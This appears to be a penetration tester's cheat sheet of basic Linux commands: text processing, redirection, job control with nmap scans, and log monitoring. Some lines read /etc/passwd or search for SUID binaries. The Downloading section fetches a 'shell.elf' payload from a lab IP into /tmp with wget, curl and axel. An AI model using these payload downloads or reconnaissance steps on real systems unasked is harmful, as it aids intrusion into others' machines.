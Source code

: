 # Basic Commands

## Common

### apropos

Search the list of man page descriptions for a possible match based on a keyword.

``` bash
apropos website
get-iab (1)          - Fetch the arp-scan IAB file from the IEEE website
get-oui (1)          - Fetch the arp-scan OUI file from the IEEE website (on Debian and Debian based systems, data is fetched from ieee-data package)
whatweb (1)          - Next generation Web scanner. Identify technologies used by websites.
```

### mkdir

``` bash
mkdir module one

mkdir "module one"

mkdir -p module/{one,two,three}
```

### Piping

``` bash
sudo ss -antlp | grep sshd
```

### sed

``` bash
echo 'Hades' | sed 's/Hades/leecybersec.com/'
```

### cut

``` bash
echo "hacking, penetration testing and bug hunting"| cut -f 2 -d " "

penetration
```
``` bash
cut -d ":" -f 1 /etc/passwd
root
daemon
bin
```

### awk

``` bash
cat /etc/passwd | awk -F ":" '{print $1, ":", $7}' | grep "sh"
```

### uniq -c

``` bash
cat list.txt | sort | uniq -c | sort -r
```

### grep

``` bash
ifconfig | grep eth0 -C 1 | grep inet | cut -f10 -d' '
grep -v "Nmap"
```

### cutycapt

``` bash
cutycapt --url=$ip --out=$ip.png
```

### Redirect

to a New File

``` bash
ls > list.txt
```

``` bash
cat list.txt
Desktop
Documents
list.txt
```

to an Existing File

``` bash
echo "Add new" >> list.txt
```

from a File

``` bash
wc -m < list.txt
```

STDERR

``` bash
find / -perm -u=s -type f 2>/dev/null
```

## Processes

### Background a process 

``` bash
┌──(Hades㉿192.168.11.130)-[0.8:10.9]~
└─$ nmap -p- 127.0.0.1 &           
[1] 1239
                                                                                                                                                                            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:49 EST
```

### Suspend the job

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ nmap -p- 192.168.11.131 -Pn

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:52 EST
^Z
zsh: suspended  nmap -p- 192.168.11.131 -Pn
┌──(Hades㉿192.168.11.130)-[0.7:11.4]~
└─$ bg

[1]  + continued  nmap -p- 192.168.11.131 -Pn
```

### jobs and fg

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ jobs

[1]  + running    nmap -p- 192.168.11.131 -Pn
                                                                                                                                                                            
┌──(Hades㉿192.168.11.130)-[0.8:11.4]~
└─$ fg

[1]  + running    nmap -p- 192.168.11.131 -Pn
^C
```

### ps and kill

``` bash
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 20:39 ?        00:00:02 /sbin/init splash
root           2       0  0 20:39 ?        00:00:00 [kthreadd]
<snip>
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
kali        1673    1202  0 20:59 pts/0    00:00:00 ps -ef
```

``` bash
ps -fC nmap
UID          PID    PPID  C STIME TTY          TIME CMD
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
```

``` bash
kill 1466                                                                                                                                                           2 ⚙
                                                                                                                                                                            
[2]  + terminated  nmap -p- 192.168.11.132 -Pn
```

## Monitoring

### tail

``` bash
udo tail -f /var/log/apache2/access.log
192.168.11.130 - - [09/Mar/2021:21:12:03 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
192.168.11.130 - - [09/Mar/2021:21:12:05 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
...
```

### watch

``` bash
watch -n 1 date
```

## Downloading

### wget

``` bash
wget -O /tmp/shell http://192.168.110.131/shell.elf
```

### curl

``` bash
curl -o /tmp/shell http://192.168.110.131/shell.elf
```

### axel

``` bash
axel -a -n 20 -o /tmp/shell http://192.168.110.131/shell.elf
```